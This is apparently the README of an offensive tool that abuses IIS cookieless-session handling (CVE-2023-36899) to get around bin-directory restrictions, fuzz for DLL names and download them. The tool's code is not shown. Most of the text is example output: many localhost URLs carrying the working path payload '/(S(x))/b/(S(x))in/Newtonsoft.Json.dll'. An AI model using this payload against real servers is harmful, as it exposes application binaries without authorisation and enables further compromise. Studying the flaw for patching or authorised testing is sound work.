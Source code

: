 # Cookieless-Session-Bypasser-IIS
Used to perform cookieless session bypasses to reach into the bin directory and fuzz dll names and download them if the bug is present  hate off to the iis god himself and critical thinking poscast and SHubs without their constant knowledge drops i would have never learned this 


Article from the iis god himself
https://soroush.me/blog/2023/08/cookieless-duodrop-iis-auth-bypass-app-pool-privesc-in-asp-net-framework-cve-2023-36899/


EXAMPLE OUTPUT
================
INFO:__main__:Success: http://127.0.0.1:81//(S(x))/b/(S(x))in/Newtonsoft.Json.dll (DLL likely present)
Success:  http://127.0.0.1:81//(S(x))/b/(S(x))in/Newtonsoft.Json.dll (DLL likely present)
INFO:__main__:Success:  http://127.0.0.1:81//(S(x))/b/(S(x))in/Newtonsoft.Json.dll (DLL likely present)
Success:  http://127.0.0.1:81//(S(x))/b/(S(x))in/Newtonsoft.Json.dll (DLL likely present)
Processing URLs: 100%|████████████████████████████████████████████████████████████████| 54/54 [00:10<00:00,  5.21req/s]



Found URLs:
http://127.0.0.1:8200//(S(x))/b/(S(x))in/Newtonsoft.Json.dll
http://127.0.0.1:83//(S(x))/b/(S(x))in/Newtonsoft.Json.dll
http://127.0.0.1:8001//(S(x))/b/(S(x))in/Newtonsoft.Json.dll
http://127.0.0.1:8086//(S(x))/b/(S(x))in/Newtonsoft.Json.dll
https://127.0.0.1//(S(x))/b/(S(x))in/Newtonsoft.Json.dll
http://127.0.0.1:81//(S(x))/b/(S(x))in/Newtonsoft.Json.dll
http://127.0.0.1:81//(S(x))/b/(S(x))in/Newtonsoft.Json.dll
http://127.0.0.1:8081//(S(x))/b/(S(x))in/Newtonsoft.Json.dll
https://127.0.0.1//(S(x))/b/(S(x))in/Newtonsoft.Json.dll
https://127.0.0.1//(S(x))/b/(S(x))in/Newtonsoft.Json.dll
https://127.0.0.1//(S(x))/b/(S(x))in/Newtonsoft.Json.dll
http://127.0.0.1:8085//(S(x))/b/(S(x))in/Newtonsoft.Json.dll
https://127.0.0.1//(S(x))/b/(S(x))in/Newtonsoft.Json.dll
https://127.0.0.1//(S(x))/b/(S(x))in/Newtonsoft.Json.dll
http://127.0.0.1:81//(S(x))/b/(S(x))in/Newtonsoft.Json.dll
http://127.0.0.1:81//(S(x))/b/(S(x))in/Newtonsoft.Json.dll
